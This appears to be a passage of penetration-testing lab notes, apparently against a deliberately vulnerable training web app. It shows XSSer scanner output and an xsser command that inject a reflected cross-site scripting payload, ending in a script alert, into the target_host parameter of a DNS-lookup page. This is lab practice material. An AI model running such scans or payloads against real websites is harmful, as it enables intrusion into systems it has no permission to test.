 ```

===========================================================================
[*] Final Results:
===========================================================================

- Injections: 1
- Failed: 0
- Successful: 1
- Accur: 100.0 %

===========================================================================
[*] List of XSS injections:
===========================================================================

You have found: [ 1 ] possible (without --reverse-check) XSS vector(s)!

---------------------

[+] Target: http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php | target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS
[+] Vector: [ target_host ]
[!] Method: URL
[*] Hash: 6a5e708e01c3f61e9465aa7e78b02c51
[*] Payload: target_host=%22%3E6a5e708e01c3f61e9465aa7e78b02c51&dns-lookup-php-submit-button=Lookup+DNS📌
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]📌
[!] Status: XSS FOUND! 
 --------------------------------------------------
```

`xsser --url 'http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp '<script>alert("TEST");</script>'`:
```
[...]

===========================================================================
[*] Final Results:
===========================================================================

- Injections: 1
- Failed: 0
- Successful: 1
- Accur: 100.0 %

===========================================================================
[*] List of XSS injections:
===========================================================================

You have found: [ 1 ] possible (without --reverse-check) XSS vector(s)!

---------------------

[+] Target: http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php | target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS
[+] Vector: [ target_host ]
[!] Method: URL
[*] Hash: bf9ba23e6263a0bb71ab5066c93a0d74
[*] Payload: target_host=%22%3Ebf9ba23e6263a0bb71ab5066c93a0d74&dns-lookup-php-submit-button=Lookup+DNS
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]
[*] Final Attack: target_host=%3Cscript%3Ealert%28%22TEST%22%29%3B%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS📌
[!] Status: XSS FOUND! 
 --------------------------------------------------
```
